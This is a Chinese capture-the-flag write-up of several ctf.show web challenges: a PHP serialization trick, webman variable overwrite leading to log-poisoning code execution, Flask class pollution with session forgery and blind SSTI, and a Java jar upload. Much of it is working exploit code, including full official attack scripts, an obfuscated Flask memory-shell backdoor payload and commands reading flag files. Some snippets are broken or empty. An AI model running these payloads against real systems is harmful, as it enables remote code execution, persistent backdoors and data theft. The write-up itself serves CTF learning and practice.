






# DSBCTF_单身杯-web

## 签到·好玩的PHP

代码审计 

d,s,b会被强制转成字符串类型，值互相不相等，拼接后小于3，与ctf值不相等但是md5值相等

这里我们用尝试用PHP中的特殊浮点数常量`NAN`和`INF`，其中NAN不满足第一个if，因此这里使用INF

```php
<?php
	class ctfshow {
        private $d = 'I';
        private $s = 'N';
        private $b = 'F';
        private $ctf = INF;
    $dsbctf = new ctfshow();
    
    echo urlencod(serialize($dasctf));
}
```

```
O%3A7%3A%22ctfshow%22%3A4%3A%7Bs%3A10%3A%22%00ctfshow%00d%22%3Bs%3A1%3A%22I%22%3Bs%3A10%3A%22%00ctfshow%00s%22%3Bs%3A1%3A%22N%22%3Bs%3A10%3A%22%00ctfshow%00b%22%3Bs%3A1%3A%22F%22%3Bs%3A12%3A%22%00ctfshow%00ctf%22%3Bd%3AINF%3B%7D
```


ctfshow{387963bc-f4af-4d69-8142-b720d0e752c8}

## 迷雾重重

拿到源代码先查看控制器

```
<?php

namespace app\controller;

use support\Request;
use support\exception\BusinessException;

class IndexController
{
    public function index(Request $request)
    {
        
        return view('index/index');
    }

    public function testUnserialize(Request $request){
        if(null !== $request->get('data')){
            $data = $request->get('data');
            unserialize($data);
        }
        return "unserialize测试完毕";
    }

    public function testJson(Request $request){
        if(null !== $request->get('data')){
            $data = json_decode($request->get('data'),true);
            if(null!== $data && $data['name'] == 'guest'){
                return view('index/view', $data);
            }
        }
        return "json_decode测试完毕";
    }

    public function testSession(Request $request){
        $session = $request->session();
        $session->set('username',"guest");
        $data = $session->get('username');
        return "session测试完毕 username: ".$data;

    }

    public function testException(Request $request){
        if(null != $request->get('data')){
            $data = $request->get('data');
            throw new BusinessException("业务异常 ".$data,3000);
        }
        return "exception测试完毕";
    }


}

```

看到`unserialize`想到构造反序列化链，但是找魔术方法发现没有可利用的

session里面的内容不可控，只有testJson

上传的数据经过json解码交给view解析模板

查看/config/view.php，发现用的是原生类


我们跟进Raw的render方法



```php
public static function render(string $template, array $vars, string $app = null, string $plugin = null): string
    {
        $request = request();
        $plugin = $plugin === null ? ($request->plugin ?? '') : $plugin;
        $configPrefix = $plugin ? "plugin.$plugin." : '';
        $viewSuffix = config("{$configPrefix}view.options.view_suffix", 'html');
        $app = $app === null ? ($request->app ?? '') : $app;
        $baseViewPath = $plugin ? base_path() . "/plugin/$plugin/app" : app_path();
        $__template_path__ = $app === '' ? "$baseViewPath/view/$template.$viewSuffix" : "$baseViewPath/$app/view/$template.$viewSuffix";

        if(isset($request->_view_vars)) {
            extract((array)$request->_view_vars);
        }
        extract($vars);
        ob_start();
        // Try to include php file.
        try {
            include $__template_path__;
        } catch (Throwable $e) {
            ob_end_clean();
            throw $e;
        }

        return ob_get_clean();
    }
}
```

我们关注extract($vars);include $__template_path__;

extract($vars)能让我们修改内存中变量，造成**变量覆盖漏洞** 

我们只需要覆盖掉`$__template_path__`即可转为**文件包含漏洞**

这里我们尝试包含框架日志文件，通过下面方法探测文件路径

```python
def get_webroot():
    print("[+] Getting webroot...")
    
    webroot = ""

    for i in range(1,300):
        r = requests.get(url=url+'index/testJson?data={{"name": "guest", "__template_path__": "/proc/{}/cmdline"}}'.format(i))   
        time.sleep(0.2)
        if "start.php" in r.text:
            print(f"[\033[31m*\033[0m] Found start.php at /proc/{i}/cmdline")
            webroot = r.text.split("start_file=")[1][:-10]
            print(f"Found webroot: {webroot}")
            break
    return webroot
```

我们将模板引擎覆盖为我们构造的payload，发送给服务器触发报错,使框架的日志系统将这个错误的参数值原封不动地写入当天的日志文件中

```python
def send_shell(webroot):
    #payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`ls%20/>{}/public/ls.txt`;?>"}}'.format(webroot)
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`cat%20/s00*>{}/public/flag.txt`;?>"}}'.format(webroot)
    r = requests.get(url=url+payload)
    time.sleep(1)
    if r.status_code == 500:
        print("[\033[31m*\033[0m] Shell sent successfully")
    else:
        print("Failed to send shell")
```

最后我们让PHP引擎去运行这个日志文件，使我们构造的命令得以执行

```python
def include_shell(webroot):
    now = datetime.now()
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"{}/runtime/logs/webman-{}-{}-{}.log"}}'.format(webroot, now.strftime("%Y"), now.strftime("%m"), now.strftime("%d"))
    r = requests.get(url=url + payload)
    time.sleep(5)
    r = requests.get(url=url + 'flag.txt')
    if "ctfshow" in r.text:
        print("=================FLAG==================\n")
        print("\033[32m" + r.text + "\033[0m")
        print("=================FLAG==================\n")
        print("[\033[31m*\033[0m] Shell included successfully")
    else:
        print("Failed to include shell")
```


探测存在的文件



flag 在/s000ecretF1ag999.txt



ctfshow{cdc533ec-485e-4014-8d78-41182c0902e9}

下面给出官方脚本

```python
import requests
import time
from datetime import datetime

# 注意 这里题目地址 应该https换成http
url = "http://df5eca96-11bc-402c-83ae-523693014a25.challenge.ctf.show/"


# Author: ctfshow h1xa
def get_webroot():
    print("[+] Getting webroot...")

    webroot = ""

    for i in range(1, 300):
        r = requests.get(
            url=url + 'index/testJson?data={{"name": "guest", "__template_path__": "/proc/{}/cmdline"}}'.format(i))
        time.sleep(0.2)
        if "start.php" in r.text:
            print(f"[\033[31m*\033[0m] Found start.php at /proc/{i}/cmdline")
            webroot = r.text.split("start_file=")[1][:-10]
            print(f"Found webroot: {webroot}")
            break
    return webroot


def send_shell(webroot):
    # payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`ls%20/>{}/public/ls.txt`;?>"}}'.format(webroot)
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"<?php%20`cat%20/s00*>{}/public/flag.txt`;?>"}}'.format(
        webroot)
    r = requests.get(url=url + payload)
    time.sleep(1)
    if r.status_code == 500:
        print("[\033[31m*\033[0m] Shell sent successfully")
    else:
        print("Failed to send shell")


def include_shell(webroot):
    now = datetime.now()
    payload = 'index/testJson?data={{"name":"guest","__template_path__":"{}/runtime/logs/webman-{}-{}-{}.log"}}'.format(
        webroot, now.strftime("%Y"), now.strftime("%m"), now.strftime("%d"))
    r = requests.get(url=url + payload)
    time.sleep(5)
    r = requests.get(url=url + 'flag.txt')
    if "ctfshow" in r.text:
        print("=================FLAG==================\n")
        print("\033[32m" + r.text + "\033[0m")
        print("=================FLAG==================\n")
        print("[\033[31m*\033[0m] Shell included successfully")
    else:
        print("Failed to include shell")


def exploit():
    webroot = get_webroot()
    send_shell(webroot)
    include_shell(webroot)


if __name__ == '__main__':
    exploit()

```

官方推理

- nginx apache 不存在，排除日志包含的思路
- pearcmd 由于命令行启动 这里不能使用`php-fpm`的方式 包含`pearcmd.php`来`getshell`
- session 文件包含 需要找到网站部署的目录名字 进行绝对路径包含 相对路径无法定位到`session`文件
- 文件上传未开启 无法包含临时文件 和 文件上传 `session`
- 远程文件包含 测试发现除了file协议 其他伪协议并未开启

## ez_inject

注册登录后发现有个secret路由需要admin才能登陆

我们尝试在register处污染key

```python
import requests
import json

url = "http://473b22fe-1306-46d1-abd4-30ee170d7469.challenge.ctf.show/register"
payload = {
    "username": "123",
    "password": "123",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123"}}}},
}
r = requests.post(url=url, json=payload)
print(r.text)
```

成功之后登录，用unsign解密session，然后进行加密

```
D:\0Apython>flask-unsign --decode --cookie "eyJpc19hZG1pbiI6MCwidXNlcm5hbWUiOiJxd2UifQ.aUkjqA.V7Qqc8mh0kuq-3mbU_ElyCM8CU0" --secret "123"
{'is_admin': 0, 'username': 'qwe'}
```

换session后点击secret，提示在echo处
有session可以确定是flask
flask的ssti注入，我们这里用盲注

```
cycler["__in"+"it__"]["__glo"+"bals__"]  ["__bui"+"ltins__"].__import__('builtins').open('/flag').read(1)[0]=='c'
```

盲注

**`cycler`**: 这是 Jinja2 模板引擎（Flask 默认引擎）中的一个内置对象，用于在循环中轮换值。

**`.open('/flag').read(1)[0]`**:

`read(1)`：读取文件的前 **1** 个字符。

`[0]`：取出这个字符。

官方脚本

```python
import requests
import concurrent.futures

url = "http://7d26c775-19b5-4001-88e3-fbba32c4e64c.challenge.ctf.show/echo"
strings = "qwertyuiopasdfghjklzxcvbnm{}-12334567890"
target = ""

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "cookie":"user=eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0In0.ZzC9AQ.hbEoNTSwLImc98ykp0j_EJ_VlnQ"
}


def check_character(i, j, string):
    payload = '''
    cycler["__in"+"it__"]["__glo"+"bals__"]
    ["__bui"+"ltins__"].__import__('builtins').open('/flag').read({})[{}]=='{}'
    '''.format(j + 1, j, string)
    data = {"message": payload}
    r = requests.post(url=url, data=data, headers=headers)
    return string if r.status_code == 200 and "your answer is True" in r.text else None


with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    for i in range(50):
        futures = []
        for j in range(50):
            for string in strings:
                futures.append(executor.submit(check_character, i, j, string))

        for future in concurrent.futures.as_completed(futures):
            result = future.result()
            if result:
                print(result)
                target += result
                if result == "}":
                    print(target)
                    exit()

```

官方尝试的内存马

```python
url_for["\137\137\147\154\157\142\141\154\163\137\137"]  ["\137\137\142\165\151\154\164\151\156\163\137\137"]['eval']  ("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if  request.args.get('cmd') and exec(\"global  CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(requ  est.args.get(\'cmd\')).read())\")==None else resp)",  {'request':url_for["\137\137\147\154\157\142\141\154\163\137\137"]  ['request'],'app':url_for["\137\137\147\154\157\142\141\154\163\137\137"]  ['current_app']})
```



得到flag:ctfshow{2cfac8233-7268-4a4a-8d1a-741c090a57aa}

## ezzz_ssti

测试{{3*3}，回显9，说明这里是ssti

简单测试下发现没有过滤，但是限制了长度为40

https://blog.csdn.net/weixin_43995419/article/details/126811287

阅读该文章，我们可以将 Payload 保存在 config 全局对象中

Flask 框架中存在 **config 全局对象**，用来保存配置信息。

config 对象实质上是一个**字典的子类**，可以像字典一样操作。

因此要更新字典，我们可以使用 Python 中字典的 **update() 方法**。

```python

```

用如下语句查看字典的键有没有更新

```python
 
```



继续

```python
   //f的值被更新为lipsum.__globals__
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /f*").read()}}
```




ctfshow{8ae957ba-55a0-4cac-b5cf-22516ea30eea}

## 简单的文件上传

我们先进行测试整理信息

- 可以上传.jar文件
- 可以执行.jar包
- 执行后有回显

我们尝试

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
    public static void main(String[] args) {
        try {
            // 尝试读取 /flag 文件
            Process p = Runtime.getRuntime().exec("cat /flag");
            BufferedReader in = new BufferedReader(new InputStreamReader(p.getInputStream()));
            String line;
            while ((line = in.readLine()) != null) {
                System.out.println(line); // 这里的输出会显示在网页的 Output 区域
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

创建 Manifest 文件

``` java
Main-Class: Exploit
   
```

打包jar:jar cvfm exploit.jar manifest.txt Exploit.class

发现`java -jar` 命令前面加了 `-D java.securityManager` 参数

我们先上传官方给的`CTFshowCodeManager.so`,改名为.jar

```java
package com.ctfshow;

/* loaded from: JavaEngine.jar:com/ctfshow/CTFshowCodeManager.class */
public class CTFshowCodeManager {
    public static native String eval(String str);

    static {
        System.load("/var/www/html/uploads/CTFshowCodeManager.jar");
    }
}

```


```java
package com.ctfshow;

import java.io.IOException;

/* loaded from: JavaEngine.jar:com/ctfshow/Main.class */
public class Main {
    public static void main(String[] args) throws IOException {
        CTFshowCodeManager.eval("cat /secretFlag000.txt");
    }
}

```

加载刚才的so文件，然后执行命令


ctfshow{e33c8c80-541f-4133-8394-f19be971f7ac}